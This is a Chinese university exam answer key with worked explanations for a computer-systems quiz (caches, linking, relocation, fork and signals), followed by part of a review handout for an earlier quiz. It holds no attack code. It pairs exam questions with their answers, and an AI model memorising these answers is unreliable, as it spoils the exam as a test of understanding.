（1）一次读取同一磁道上连续的 8 个扇区，只需一次寻道和一次平均旋转等待；总平均用时为 ____ ms。（2 分）
（2）分 8 次独立随机读取，每次读取 1 个扇区，每次都需平均寻道和平均旋转等待；总平均用时为 ____ ms。（2 分）
答案
（1）9.16 ms （2）72.16 ms
6000 转/分钟即每秒 100 转，转一圈 10 ms。平均旋转等待是半圈，5 ms；每个扇区的传输时间是一圈的 1/500，即 0.02 ms。（1）一次寻道、一次平均旋转等待，再连续传输 8 个扇区：4 + 5 + 8 × 0.02 = 9.16 ms。（2）每次都要寻道和旋转等待：8 × (4 + 5 + 0.02) = 72.16 ms。两者相差近 8 倍，几乎全部是寻道和旋转等待的时间，传输本身只占很小一部分。这就是磁盘上顺序访问远快于随机访问的原因，也是文件系统尽量把一个文件的数据放在连续扇区上的原因。
2.5 第 13 讲：高速缓存（16 分）#
13.1 组数（2 分）#
13.1某 Cache 的数据容量为 1024 字节，每块 16 字节，采用 2 路（way）组相联。它共有多少个组（set）？
A. 16 B. 32 C. 64 D. 128
答案
B
C = S × E × B，所以 S = 1024 / (2 × 16) = 32。
13.2 平均访问时间（2 分）#
13.2某一级 Cache 的命中时间为 1 周期，未命中罚时（penalty）为额外的 80 周期。按课件的平均访问时间模型计算：
（1）未命中率为 5% 时，平均访问时间为 ____ 周期。（1 分）
（2）未命中率降为 1% 时，平均访问时间为 ____ 周期。（1 分）
答案
（1）5 周期 （2）1.8 周期
平均访问时间 = 命中时间 + 不命中率 × 不命中罚时：1 + 0.05 × 80 = 5，1 + 0.01 × 80 = 1.8。不命中率从 5% 降到 1%，平均访问时间降到原来的不到 40%。命中率的一点点提高，对平均访问时间影响很大，因为罚时比命中时间大得多。
13.3 不命中的分类与相联度（不定项，3 分）#
13.3（不定项）某直接映射（direct mapped）Cache 有 4 行（line），块号 b 映射到第 (b mod 4) 组（set）。Cache 最初为空，程序只反复读取主存块（block）0、4、0、4……，没有其他访问。以下说法哪些正确？
A. 第一次读取块 0 产生冷启动（compulsory）未命中。
B. 此后反复访问两个块的未命中，主要是 Cache 总容量不足造成的。
C. 容量和块大小不变，改为 2 路组相联，首次装入两块后即可全部命中。
D. 块大小不变，改为有 8 行的直接映射 Cache，首次装入两块后即可全部命中。
答案
A、C、D
第一次访问块 0 时 Cache 是空的，是冷不命中，A 对。块 0 和块 4 都映射到第 0 组，互相驱逐，而 Cache 有 4 行，只用了 2 块，容量绰绰有余，所以这是冲突不命中，不是容量不命中，B 错。改成 2 路组相联后共 2 组，块 0 和块 4 都在第 0 组，但一组能放两块，装入后不再互相驱逐，C 对。改成 8 行直接映射后，块 0 映射到第 0 组，块 4 映射到第 4 组，不再冲突，D 对。判断不命中的类型，标准做法是问：换成同样容量的全相联缓存还会不会不命中？不会，就是冲突不命中（冲刺讲义 3.5 节）。
13.4 组相联、LRU 与写回的模拟（5 分）#
13.4某数据 Cache 有 2 组、每组 2 行、每块 8 字节，使用中间地址位作组索引，采用 LRU 替换、写分配（write-allocate）和写回（write-back）。初始所有行均无效；读写命中都会更新 LRU 次序，新装入块视为最近使用。（LRU，即最近最少使用替换策略：当 Cache 某组已满且需要替换时，淘汰该组中最长时间未被访问的缓存行。）
按下列顺序访问，每次只读或写 1 个字节，地址均为十进制，W 表示一次普通的字节写入。只统计此序列，没有其他访问，也不在序列结束时主动清空 Cache：
R 0，W 1，R 16，R 8，R 0，W 32，R 16，R 40
（1）8 次 CPU 访问共发生 ____ 次未命中。
（2）因替换脏（dirty）块而向主存写回整块数据，共发生 ____ 次。
（3）序列结束时，第 0 组中保留的两个主存块，其起始地址按从小到大为 ____、____。
（4）序列结束时，第 0 组中的脏块，其主存起始地址为 ____。
答案
（1）6 （2）1 （3）16、32 （4）32
块大小 8 字节，块号 = 地址 / 8，组号 = 块号 mod 2。表 10 逐次列出每次访问后两组的内容，每组中先写的是最久未用的块。
表 10 13.4 的逐次模拟（块用起始地址表示，每组左边是 LRU）
| 访问 | 块（地址范围） | 组 | 结果 | 第 0 组 | 第 1 组 |
|---|---|---|---|---|---|
| R 0 | 0–7 | 0 | 不命中 | 0 | |
| W 1 | 0–7 | 0 | 命中 | 0（脏） | |
| R 16 | 16–23 | 0 | 不命中 | 0（脏）、16 | |
| R 8 | 8–15 | 1 | 不命中 | 0（脏）、16 | 8 |
| R 0 | 0–7 | 0 | 命中 | 16、0（脏） | 8 |
| W 32 | 32–39 | 0 | 不命中，替换 16（干净） | 0（脏）、32（脏） | 8 |
| R 16 | 16–23 | 0 | 不命中，替换 0（脏，写回） | 32（脏）、16 | 8 |
| R 40 | 40–47 | 1 | 不命中 | 32（脏）、16 | 8、40 |
8 次访问中只有 W 1 和第二次 R 0 命中，共 6 次不命中。W 1 把块 0 标为脏块；W 32 时第 0 组已满，最久未用的是块 16（R 0 刚刚用过块 0），替换它不需要写回；W 32 写分配后块 32 成为脏块；再访问 16 时，最久未用的是块 0，它是脏块，写回一次。结束时第 0 组是块 16（干净）和块 32（脏）。用模拟程序核对，结果相同。
⚠ LRU 和写回的两个细节
第一，命中也要更新 LRU 次序：第二次 R 0 命中之后，块 0 变成最近使用的，所以 W 32 替换的是块 16 而不是块 0。漏掉这一步，替换的块就会错，后面全部跟着错。第二，写回只在替换脏块时发生，替换干净的块不写回；序列结束时 Cache 中的脏块（块 32）没有被替换，题目说明不主动清空，它不计入写回次数。
13.5 按列访问二维数组（4 分）#
13.5某直接映射数据 Cache 容量为 64 字节、块大小为 16 字节。数组 int a[4][K] 按行优先存储，起始地址为 0x1000，sizeof(int) = 4。分别取 K = 8 与 K = 12 进行两次独立实验；每次数组均已初始化，开始测量时 Cache 为空，不计初始化过程的访问。只统计下面的循环对 a 的读取，sum、i、j 均放在寄存器中；不考虑预取、其他数据或指令访问，也不改变所列访问顺序。
（1）K = 8 时，16 次数组读取共发生 ____ 次未命中。（2 分）
（2）K = 12 时，16 次数组读取共发生 ____ 次未命中。（2 分）
long sum = 0;
for (int j = 0; j < 4; j++)
for (int i = 0; i < 4; i++)
sum += a[i][j];答案
K = 8：16 次 K = 12：4 次
Cache 有 64 / 16 = 4 组，组号 = (地址 / 16) mod 4。0x1000 / 16 = 0x100，模 4 为 0，所以 a[0][0] 所在的块映射到第 0 组。循环只访问每行的前 4 个 int，即每行开头的 16 字节；因为行的起点都是 16 的倍数（32 或 48 字节一行），这 4 个元素恰好在同一个块里。所以只需要看每行的第一个块映射到哪一组（图 6）。
图 6 13.5 中各行的块映射到的组（有颜色的块是循环访问到的）
K = 8 时一行 32 字节，相邻两行相差 2 个块，四行依次映射到第 0、2、0、2 组：第 0 行和第 2 行争第 0 组，第 1 行和第 3 行争第 2 组。外层 j 每取一个值，内层按 a[0][j]、a[1][j]、a[2][j]、a[3][j] 的顺序访问，每次访问到的块都刚刚被同组的另一行换出，16 次全部不命中。K = 12 时一行 48 字节，相邻两行相差 3 个块，四行映射到第 0、3、2、1 组，互不冲突，只有第一轮的 4 次冷不命中，之后全部命中。
这道题的反直觉之处在于 K = 12 时数组更大，不命中反而更少。不命中多少不取决于数组的总大小，而取决于这次访问的那几个块是否映射到同一组。这也是 Cache Lab 的 Part B 中，32×32 与 64×64 的矩阵转置难度差别很大的原因：64×64 中相隔 4 行的元素映射到同一组。
⚠ 按列访问不一定不命中
很多人看到“按列访问”就直接判断为“每次都不命中”。K = 12 的情形说明，只要被访问的几个块分散在不同的组，而且总数不超过 Cache 的行数，按列访问也能在第一轮之后全部命中。判断时要算出每个块的组号，不要凭访问方向下结论。
2.6 第 14、15 讲：程序优化与链接（14 分）#
14.1 优化的种类（2 分）#
14.1在某个内层循环中，n 和外层循环变量 i 均保持不变。将每次都计算的 n*i 提前到进入该内层循环之前，只计算一次。这属于哪种优化？
A. 代码移动（code motion） B. 循环展开（loop unrolling） C. 多累积变量（multiple accumulators） D. 强度削减（strength reduction）
答案
A
把循环中结果不变的计算移到循环外面，减少执行次数，是代码移动。强度削减是用代价小的运算代替代价大的运算，例如把每次计算 n*i 改成每次加 n；这道题没有替换运算，只是挪了位置。选项 D 是最容易混淆的一个：两者常常一起出现（教材的例子中先代码移动、再强度削减），但概念不同。
14.2 链接器符号（不定项，3 分）#
14.2（不定项）考虑下面的源文件 module.c，编译生成未优化的可重定位目标文件，不含调试信息。按课件中的链接器符号分类讨论，下列说法哪些正确？
A. bias 对应本模块的局部链接器符号。
B. 形参 x 和变量 tmp 都是需要跨模块解析的外部符号。
C. 本模块对 helper 的引用，需要与其定义关联。
D. run 是可被其他模块引用的全局链接器符号。
static int bias = 3;
extern int helper(int);
int run(int x)
{
int tmp = x + bias;
return helper(tmp);
}答案
A、C、D
逐个名字套四种身份（冲刺讲义 3.7 节）。bias 是 static 的全局变量，有符号表条目，但只在本模块可见，是局部符号，A 对。x 和 tmp 是参数和局部变量，存在栈上或寄存器里，根本不进符号表，B 错。helper 在本模块中只有声明和引用，是外部符号（UND），链接器要找到它在别的模块中的定义，C 对。run 是本模块定义的非 static 函数，是全局符号，D 对。
14.3 内存别名（2 分）#
14.3有下面两个函数。每次试验都独立地从 long x = 3 开始，且计算不溢出。填写相应调用结束后的 x 值，均为十进制。
（1）f(&x, &x) 之后，x = ____。（1 分）
（2）g(&x, &x) 之后，x = ____。（1 分）
void f(long *p, long *q)
{
*p += *q;
*p += *q;
}
void g(long *p, long *q)
{
*p += 2 * (*q);
}答案
（1）12 （2）9
p 和 q 指向同一个 x 时，f 的第一句把 x 改成 3 + 3 = 6，第二句再读 *q 时读到的已经是 6，x 变成 12；g 只读一次 *q，得到 3 + 2 × 3 = 9。默认环境上编译运行，结果相同。这正是内存别名妨碍优化的典型例子（教材第 5 章开头的 twiddle1、twiddle2）：两个函数在 p、q 不指向同一处时结果相同，可是编译器不知道调用者会不会传入同一个地址，所以不能自动把 f 改写成 g。
14.4 共享库与静态库（不定项，3 分）#
14.4（不定项）按照课件中的链接模型，下列说法哪些正确？
A. 程序运行中可通过 dlopen 打开共享库，再用 dlsym 取得其中函数的地址。
B. 使用共享库时，只要库文件更新，主程序就必须重新编译。
C. 链接静态库时，把所有库放在引用它们的目标文件之前，总能正确解析符号。
D. 共享库中的同一份代码可以被多个进程共享。
答案
A、D
A 是运行时动态链接的接口，对。B 恰好说反了：共享库的好处之一就是库更新后，主程序不必重新编译或链接，下次运行时加载新库即可（只要接口不变），B 错。C 也说反了：链接器从左到右扫描，扫描到静态库时只取出能解析当前未定义引用的成员，库放在前面时还没有任何未定义的引用，什么也取不出来；库应当放在引用它的目标文件之后（冲刺讲义 5.4 节的第二条命令就是这个错误），C 错。共享库的代码段在内存中只有一份，被所有使用它的进程映射共享，D 对。
14.5 重定位的计算（4 分）#
14.5某可重定位目标文件中，只列出下面两条需要修补的 x86-64 指令；左列是相对于该输入文件 .text 节起点的偏移。其他指令省略，符号名按重定位信息标注。重定位条目见下表。链接后，该输入文件 .text 节起点为 0x400500；buf 的地址为 0x601080；helper 的地址为 0x4004E0。两条指令的长度均为 5 字节，需修补的字段均为 32 位。
（1）偏移 0x11 处应写入的 32 位数值，表示为 0x____。（2 分）
（2）偏移 0x21 处应写入的 32 位数值，表示为 0x____。（2 分）
10: bf 00 00 00 00 movl $0, %edi
20: e8 00 00 00 00 callq helper表 11 14.5 的重定位条目
| r_offset | 重定位类型 | 目标符号 | r_addend |
|---|---|---|---|
| 0x11 | R_X86_64_32 | buf | +8 |
| 0x21 | R_X86_64_PC32 | helper | −4 |
答案
（1）0x00601088 （2）0xFFFFFFBB
（1）R_X86_64_32 是绝对引用，填入 S + A = 0x601080 + 8 = 0x601088。（2）R_X86_64_PC32 是 PC 相对引用，填入 S + A − P，其中 P 是被修改的位置的运行时地址：P = 0x400500 + 0x21 = 0x400521。S + A − P = 0x4004E0 − 4 − 0x400521 = −0x45 = −69，32 位补码是 0xFFFFFFBB。验算：call 的下一条指令地址是 0x400520 + 5 = 0x400525，0x400525 − 0x45 = 0x4004E0，正是 helper。冲刺讲义例 3.7 用的是同一个公式。
⚠ 重定位题的三个细节
第一，P 是被修改的那 4 个字节的地址（r_offset 对应的位置），不是指令的起始地址，也不是下一条指令的地址；加数 −4 正是用来把 P 换算成下一条指令的地址。第二，helper 在调用点之前（地址更小），结果是负数，要写成 32 位补码。PC 相对引用填的是有符号的距离，CPU 执行时把它符号扩展后加到 PC 上，负数是正常的；要求无符号的是填绝对地址的 R_X86_64_32。第三，题目要的是“32 位数值”，不是内存中的字节序列；若问字节，小端序写作 bb ff ff ff。
2.7 第 16、17 讲：异常控制流（14 分）#
16.1 缺页故障的返回（2 分）#
16.1某条访存指令因所需页面尚未驻留内存而产生可恢复的缺页故障（page fault）。内核成功调入页面后，按课件描述的模型，控制返回到哪里？
A. 重新执行产生故障的那条指令。
B. 执行产生故障指令的下一条指令。
C. 从当前程序的 main 函数入口重新开始。
D. 执行当前函数的 ret 指令并返回调用者。
答案
A
故障处理程序能修复错误时，返回到引起故障的那条指令重新执行；这一次页面已在内存中，访存就能成功。如果返回下一条指令，这次访存就被跳过了，程序的结果是错的。这与 2025 年第 22 题考的是同一条性质：故障返回的是当前指令（冲刺讲义 3.8 节）。
16.2 execve 与 PID（2 分）#
16.2父进程调用 fork 创建了 PID 为 401 的子进程。子进程随后调用 execve，并成功加载另一个程序。下列哪项正确？
A. 子进程获得新 PID，并回到原 execve 调用的下一条语句。
B. 子进程获得新 PID，但不回到原 execve 调用点。
C. 子进程 PID 仍为 401，且不回到原 execve 调用点。
D. 子进程 PID 仍为 401，并回到原 execve 调用的下一条语句。
答案
C
execve 在当前进程中加载并运行新程序，替换的是程序（代码、数据、栈），不是进程，所以 PID 不变；成功时旧程序已经不在了，execve 无处可返回，只有失败时才返回 −1。第 16 讲的实测中，子进程调用 execve 前后打印的 PID 相同。
16.3 信号不排队与回收子进程（4 分）#
16.3某父进程已安装 SIGCHLD 信号处理函数，并阻塞了 SIGCHLD。该父进程共有 3 个子进程。在解除阻塞前，3 个子进程均已终止，相应的 SIGCHLD 均已产生，但父进程尚未调用 wait 或 waitpid，也未启用自动回收。考虑下面两种不同的信号处理函数（两种方案分别独立执行，初始条件完全相同）。父进程解除 SIGCHLD 阻塞。假设此后没有新的子进程状态变化，也没有其他相关信号或系统调用错误。只讨论课件中的普通信号。
（1）解除阻塞前，父进程的 pending 向量中，SIGCHLD 对应位的数值为 ____。（1 分）
（2）方案 A 的处理函数执行结束后，仍有 ____ 个已终止但尚未被回收的子进程。（1 分）
（3）方案 B 的处理函数中，waitpid 返回正 PID 的次数为 ____。（1 分）
（4）方案 B 的处理函数中，waitpid 总共被调用 ____ 次。（1 分）
/* 方案 A */
void handler(int sig) {
waitpid(-1, NULL, 0);
}
/* 方案 B */
void handler(int sig) {
while (waitpid(-1, NULL, 0) > 0)
;
}答案
（1）1 （2）2 （3）3 （4）4
（1）3 个 SIGCHLD 到达时都被阻塞，同一种信号只有一个待处理位，三次发送都只是把这一位置 1，所以这一位是 1（不是 3）。（2）解除阻塞后，这个待处理信号被接收，处理函数只运行一次。方案 A 只回收一个子进程，另外两个成了没人回收的僵死进程。（3）方案 B 循环调用 waitpid，前三次各回收一个子进程，返回它们的 PID。（4）第四次调用时已经没有子进程，waitpid 返回 −1（errno 为 ECHILD），循环结束，共调用 4 次。
在默认环境上按题目的条件编写程序：阻塞 SIGCHLD，创建 3 个立即退出的子进程，睡 1 秒后用 sigpending 读出待处理位（为 1），再解除阻塞。方案 A 的处理函数运行 1 次、回收 1 个，事后还能用 waitpid 回收另外 2 个；方案 B 的处理函数运行 1 次，waitpid 调用 4 次、回收 3 个。这道题是第 17 讲 17.9 节 fork14、fork15 的简化版，也是冲刺讲义例 3.9 的结论：一个 SIGCHLD 只说明“至少有一个”子进程终止了，处理函数必须循环回收。
16.4 fork 与 waitpid 的可行输出（4 分）#
16.4阅读下面的程序，必要头文件已包含。所有 fork 成功，waitpid 均正常等待指定子进程；未安装 SIGCHLD 处理函数。每次 printf 返回前已完成一整行输出，行与行不会交错，忽略输出缓冲的复制或延迟。
（1）包括最初的父进程在内，整个程序共有 ____ 个进程执行。（1 分）
（2）（不定项，3 分）以下完整输出序列哪些可能出现？每个空格代表换行。
A. A3 C1 B5 D1 B. B5 C1 A3 D1 C. A3 B5 C3 D3 D. B5 A3 C1 D1
int main(void)
{
int x = 1;
pid_t p = fork();
if (p == 0) {
x += 2;
printf("A%d\n", x);
} else {
pid_t q = fork();
if (q == 0) {
x += 4;
printf("B%d\n", x);
} else {
waitpid(p, NULL, 0);
printf("C%d\n", x);
waitpid(q, NULL, 0);
printf("D%d\n", x);
}
}
return 0;
}答案
（1）3 （2）A、D
（1）父进程 fork 了两次，每个子进程都不再 fork，共 3 个进程。（2）先确定每个进程打印的值：x 在每个进程中是各自的副本，子进程 p 打印 A3，子进程 q 打印 B5，父进程的 x 始终是 1，打印 C1 和 D1。选项 C 中出现 C3、D3，以为子进程的修改会影响父进程，首先排除。再画进程图（图 7），找出约束：waitpid(p) 要求 A 在 C 之前；父进程中 C 在 D 之前；waitpid(q) 要求 B 在 D 之前。B 与 A、C 之间没有约束。满足这三条的顺序只有三种：A B C D、A C B D、B A C D。选项 A 是第二种，选项 D 是第三种；选项 B 让 C 出现在 A 之前，违反了第一条。
图 7 16.4 的进程图：两条虚线是 waitpid 带来的约束
在默认环境上运行 2000 次，出现了 A3 B5 C1 D1（1922 次）和 B5 A3 C1 D1（78 次）两种；A3 C1 B5 D1 没有出现，但按进程图它是可行的，只是需要子进程 q 在父进程打印 C1 之后才运行，调度上比较少见。和第 16 讲的结论一样：统计只能说明“通常是什么”，“可能是什么”要靠进程图推出。
16.5 setjmp 与 longjmp（2 分）#
16.5阅读下面的程序，必要头文件已包含，env 和 x 均为全局变量。程序正常运行，最后 printf 输出的十进制数为 ____。
jmp_buf env;
int x = 0;
void f(void)
{
x = 7;
longjmp(env, 2);
x = 9;
}
int main(void)
{
switch (setjmp(env)) {
case 0:
x = 1;
f();
x = 3;
break;
case 2:
x += 4;
break;
}
printf("%d\n", x);
return 0;
}答案
11
第一次调用 setjmp 返回 0，进入 case 0，x = 1，调用 f；f 把 x 改成 7，然后 longjmp(env, 2)：控制回到 setjmp，这次 setjmp 返回 2，进入 case 2，x += 4，x 变成 11，打印 11。f 中 longjmp 之后的 x = 9 和 case 0 中 f() 之后的 x = 3 都不会执行，因为 longjmp 从不返回，case 0 的那条执行路径被整个丢弃了。默认环境上编译运行，输出 11。
⚠ 这里的 x 为什么一定是 7
x 是全局变量，longjmp 恢复的只是寄存器和栈指针，不会改动内存中的全局变量，所以跳回来之后 x 仍是 f 改过的 7。如果 x 是 main 的局部变量又没有声明为 volatile，longjmp 回来后它的值就不确定了（第 17 讲 17.12 节的实验中，-O2 编译时局部变量回到了 setjmp 时的旧值）。题目特意把 x 设为全局变量，就是为了避开这个问题。
第三部分 失分点与复习建议#
3.1 这次试卷的易错点#
表 12 按题目列出这次试卷中最容易选错、填错的地方。它们大多不是难点，而是“看起来像”的干扰项。
表 12 2026 年第 2 次阶段测验的易错点
| 题号 | 容易犯的错误 | 正确的想法 |
|---|---|---|
| 9.1 | 把被调用者保存寄存器当成 ISA | 调用约定是软件之间的约定 |
| 9.2 | 套用 Y86-64 的习惯，都选 valB | 按题目给出的语义找基址寄存器 |
| 9.4 | 让 Out 在 Load = 1 的那一段立即变化 | 寄存器只在上升沿更新 |
| 10.2 | 把写入的值 0x129 当成写入地址，或写成原栈顶 0x1000 | 写入地址是 %rsp − 8 |
| 10.3 | valP 写成 PC + 2，地址写成 valA + valC | rmmovq 共 10 字节；地址来自 rB |
| 10.4 | 选 C（写内存） | iaddq 只改寄存器和条件码 |
| 11.2 | 延迟写成各级时间之和 360 | 级数 × 周期 = 480 |
| 11.3 | 选 A（取较旧的 I1） | 转发取最新的 E 级 |
| 11.4 | 选 B（只按 ret 处理） | 组合 B：按加载/使用暂停，不冲掉 ret |
| 11.5 | 忘了加载/使用让 I3 也晚一拍；把错误路径上的 I5 当成答案 | 逐周期列表 |
| 12.2 | 认为一个 64 位字存在一颗芯片里 | 8 颗芯片各存 8 位 |
| 12.3 | 选 A（32 字节） | 跨一行是 128 字节 |
| 13.3 | 选 B（容量不足） | 两块装得下，是冲突 |
| 13.4 | 命中时不更新 LRU；把结束时留在 Cache 中的脏块计入写回 | 命中也更新次序；只有替换脏块才写回 |
| 13.5 | 以为按列访问就全部不命中 | 逐行算组号 |
| 14.1 | 选 D（强度削减） | 只是挪位置，是代码移动 |
| 14.4 | 选 C（库放在前面） | 库要放在引用它的目标文件之后 |
| 14.5 | P 取指令起点或下一条指令地址；忘了取补码 | P = 起点 + r_offset |
| 16.3 | (1) 填 3；(4) 填 3 | 只有一个待处理位；最后一次返回 −1 也是一次调用 |
| 16.4 | 选 C（父进程的 x 被改） | 父子进程的变量各自独立 |
3.2 期末复习的建议#
这次阶段测验覆盖的第 9–17 讲，到期末还会再考一次，而且往年期末的同类题是大题：新指令的阶段表、流水线逐周期分析、缓存模拟、链接的符号与重定位、fork 与信号的可行输出。这次试卷以选择题为主，每道题只考一个结论，期末则要求把这些结论连起来用。
建议按三步复习。第一步，把这份解析中每一道题的“为什么”重新讲一遍，特别是选择题中被排除的选项错在哪里，这比记住答案更重要。第二步，把冲刺讲义第五部分的往年大题（leave 的阶段表、PIPE 的转发与加载/使用、组相联缓存、符号与静态库、信号的接收）完整做一遍，体会小题的结论在大题中怎样组合。第三步，结合 Lab：Arch Lab 的 Part B 就是 10.4 的完整版，Cache Lab 的 Part B 就是 13.5 的放大版，Shell Lab 则把 16.3 的循环回收、17.10 节的阻塞 SIGCHLD 全部用上。
—— 试题解析完 ——
计算机系统导论（ICS）
第 1 次阶段测验 · 冲刺复习讲义
考试范围：第 2–8 讲（CS:APP 第 2 章、第 3 章）
这份讲义怎么用#
这不是又一份知识点讲义——各讲的细节在 ICS01–ICS08 各讲复习讲义里已经讲透了。这份是应试归纳：告诉你这门阶段考实际考什么、以什么形式考、怎么快速答对、哪里最容易丢分。材料来自两处：一是 2025 年第 1 次阶段测验（学校从去年才开始分阶段测试，这是第一份，题型和范围最贴近这次），二是 2012–2023 年历年期中题里落在第 2–8 讲范围内的部分（范围更广的流水线、cache、链接等已剔除）。助教说题目“主要来自课后习题和研讨题”，所以第三部分的每个解题模板都尽量对应到教材习题和研讨题的套路。
★ 三句话抓住这次考试
填空为主、按讲次分组：2025 年阶段测共 24 题、约 100 分，基本是“给代码/数据，填结果”，不是选择题。按第 2、3、4、5、6、7、8 讲依次分组。
分值集中在机器级编程：第 5 讲（控制）28 分、第 7 讲（数据）20 分、第 6 讲（过程）16 分——汇编逆向与结构体/数组是大头，占了一多半。
最爱考的三类：① 整数/浮点的位级转换与恒真判断；② 汇编↔C 的对应（寻址、条件码、循环、switch、过程）；③ 结构体对齐与数组地址计算。
第一部分 考情分析#
1.1 2025 年第 1 次阶段测验的结构#
这是本校分阶段测试的第一份试卷，最值得逐题研究。它完全按大班讲授次序分组，每讲一个小节，题型以“给出代码或数据、在指定位置填空”为主。各讲分值与题型如下：
表 1 2025 阶段测验分讲分值与考点
| 讲次 | 分值 | 每空 | 考点（2025 实测） | 题型 |
|---|---|---|---|---|
| 第 2 讲 整数 | 12 | 2 分 | 十/十六进制转换、按位与、!! 逻辑非、-10 与 10U 比较、(int)short 的首字节 | 填空 |
| 第 3 讲 浮点 | 10 | 1 分 | +∞ 编码、位模式→(s,M,E)、向偶数舍入、int/float/double 恒真判断 | 填空 + 判断 |
| 第 4 讲 基础 | 6 | 1 分 | rbx/rcx 的低位寄存器名、访问次数统计、D(Rb,Ri,s) 地址计算 | 填空 |
| 第 5 讲 控制 | 28 | 2 分 | 等价指令（cmp→sub、test→and）、setle/jg/cmov 补全、movzbl 隐含操作、循环逆向、switch 跳转表 | 填空（最大头） |
| 第 6 讲 过程 | 16 | 1 分 | popq 步骤、multstore 栈变化（rsp/返回地址）、变量在哪个寄存器、被调用者保存、mult2(y,x) 的改动、变量在寄存器还是内存 | 填空 |
| 第 7 讲 数据 | 20 | 2 分 | 二维数组 arr[x][y] 汇编补全、变长数组传参、嵌套/多级数组输出、由偏移反推 A/B、SSE 浮点变量归属 | 填空 |
| 第 8 讲 高级 | 8 | 2 分 | 大端 union 的 int 输出、缓冲区溢出三种防御对比表 | 填空 |
几个可操作的结论：
汇编题占比最高。第 5+6+7 讲合计 64 分，几乎都是“汇编↔C 对应”和“给汇编/数据填结果”。这部分练熟，分数就稳了一多半。
基本没有选择题，全是填空，答案要精确：十六进制、寄存器名、地址、指令都要写对。好消息是题目说“没写 0x 不扣分、寄存器没写 % 不扣分”。
每讲都考，没有可以完全放弃的。第 2、3、4、8 讲分值虽小，但都是“送分的基础题”，错了很亏。
题量大。注意时间：大题（循环/switch/过程逆向）费时间，先把基础填空拿稳。
1.2 与往年期中题的关系#
2012–2023 的期中题范围比这次阶段考大（还含流水线、cache 等），但落在第 2–8 讲内的知识点高度重合，且考法更深，是很好的加练素材。两者的差别与联系：
| 2025 阶段测验 | 往年期中题（第 2–8 讲部分） | |
|---|---|---|
| 题型 | 分讲填空，偏基础 | 单选（第 2、3 章约占 8–12 题）+ 整数/浮点大题 + 汇编逆向大题 |
| 整数/浮点 | 基础转换、简单恒真判断 | 自定义位宽浮点编解码（几乎每年必考）、复杂恒真判断、舍入边界 |
| 汇编 | 补全、简单逆向 | -O0 递归 + 填栈内容、switch 完整逆向、由结构体偏移反推常量、跳转偏移字节 |
| 共同重点 | 类型转换与隐式提升、字节序、指令合法性、条件码 | 结构体对齐、数组地址计算、过程调用与栈 |
建议：把这次阶段考当成“往年期中第 2–8 讲部分的简化版”来准备。先确保 2025 阶段测那种难度的题全对，再用往年大题（尤其是自定义位宽浮点、-O0 递归填栈、switch 逆向、对齐反推）往上拔高——这些大题这次也完全可能出。
1.3 高频考点总表（按出现频率，已剔除范围外内容）#
下表统计 2012–2023 历年期中 + 2025 阶段测中，落在第 2–8 讲的知识点出现频率。★ 越多越高频，是复习的优先级排序。
| 讲 | 知识点 | 频率 | 典型题型 |
|---|---|---|---|
| 2 | int/unsigned 混合比较与隐式转换（含 sizeof 无符号、C90 常量） | ★★★★★ | 恒真判断、-10<10U |
| 2 | 补码溢出、TMin 特性、取负 | ★★★★★ | 判断并举反例 |
| 2 | 符号扩展/零扩展/截断（转换顺序） | ★★★★ | 十六进制填空 |
| 2 | 移位（算术/逻辑）与 x>>k vs x/2^k | ★★★★ | 恒真判断、汇编偏置除法 |
| 2 | 字节序与大小端 | ★★★★ | 逐字节填写、union 读数 |
| 2 | 位运算技巧（xor 交换、lowbit、& ~ 完备） | ★★★ | 位操作函数补全 |
| 3 | 自定义位宽 IEEE 浮点编码/解码 | ★★★★★ | 大题填表（几乎必考） |
| 3 | 非规格化数与特殊值（NaN/±∞/±0） | ★★★★★ | 填表、公式 |
| 3 | 向偶数舍入与精度边界（2^24、2^25 附近） | ★★★★ | 程序输出、大题 |
| 3 | 浮点转换与恒真判断（结合律、单调性、溢出/舍入） | ★★★★ | 恒真判断 |
| 4 | 指令合法性、操作数宽度、后缀、寄存器名 | ★★★★ | 选择/判断 |
| 4 | 寻址模式 D(Rb,Ri,s) 计算、mov vs lea | ★★★★ | 填空 |
| 5 | 条件码（谁设置、jg 标志组合、CF 规则） | ★★★★ | 选择/补全 |
| 5 | set/jcc/cmov 与跳转编码（PC 相对偏移） | ★★★★ | 机器码字节填空 |
| 5 | 循环逆向（汇编→C） | ★★★★ | 大题补全 |
| 5 | switch 跳转表逆向 | ★★★★ | 填跳转表/整体逆向 |
| 6 | 栈帧与调用过程（call/ret/push/pop、填栈内容） | ★★★★ | 大题填 gdb 栈 |
| 6 | 调用者/被调用者保存、参数传递、递归 | ★★★★ | 选择、-O0 递归大题 |
| 7 | 结构体对齐与偏移（sizeof、重排、反推常量） | ★★★★★ | 选择 + 大题（极高频） |
| 7 | 数组地址、嵌套/多级数组、指针运算、声明 sizeof | ★★★★ | 选择 + 大题 |
| 7 | union（大小、与字节序结合） | ★★★ | 选择 + 大题 |
| 7 | 浮点汇编（SSE：参数/返回/cvt） | ★★ | 填空（2025 考了） |
| 8 | 用 union 看字节序/位模式 | ★★★ | 输出填空 |
| 8 | 缓冲区溢出与三种防御 | ★★★ | 对比表、概念 |
第二部分 必背公式与规则一页纸#
考前最后过一遍。这些是“背下来就能直接用”的硬知识，考场上不该现推。
2.1 整数（第 2 讲）#
| 项目 | 规则 |
|---|---|
| 字长 w 的补码范围 | TMin = −2^(w−1)（如 32 位 0x80000000），TMax = 2^(w−1)−1（0x7FFFFFFF） |
| TMin 特殊性 | −TMin = TMin；|TMin| 无法表示；TMin 的位模式 = 1 后跟全 0 |
| 无符号 ↔ 有符号 | 位模式不变，只改解释。混合运算时有符号一方转成无符号 |
| 隐式提升 | short/char 先提升为 int 再运算；sizeof 是无符号 size_t；C90 下超 int 范围的常量是 unsigned |
| 转换顺序 | (unsigned)(short) 先按源类型符号扩展/截断、再改有无符号 |
| 符号/零扩展 | signed 小→大：符号扩展（补符号位）；unsigned 小→大：零扩展 |
| 截断 | 大→小：直接丢高位；可能变号 |
| 溢出判断 | 补码加法：同号相加结果异号才溢出；无符号加法：结果变小（有进位）才溢出 |
| 移位 | 逻辑右移补 0；算术右移补符号位。x>>31（算术）结果只会是 0 或 −1 |
x>>k vs x/2^k | 右移向 −∞ 取整；除法向 0 取整。负奇数时两者差 1。除法实现：负数先加偏置 (1<<k)-1 再算术右移 |
2.2 浮点（第 3 讲）#
| 项目 | 规则 |
|---|---|
| 格式 | s（1 位）| exp（k 位）| frac（n 位）；偏置 bias = 2^(k−1) − 1 |
| 规格化（exp 非全 0/全 1） | E = exp − bias，M = 1.frac，值 = (−1)^s · 1.frac · 2^E |
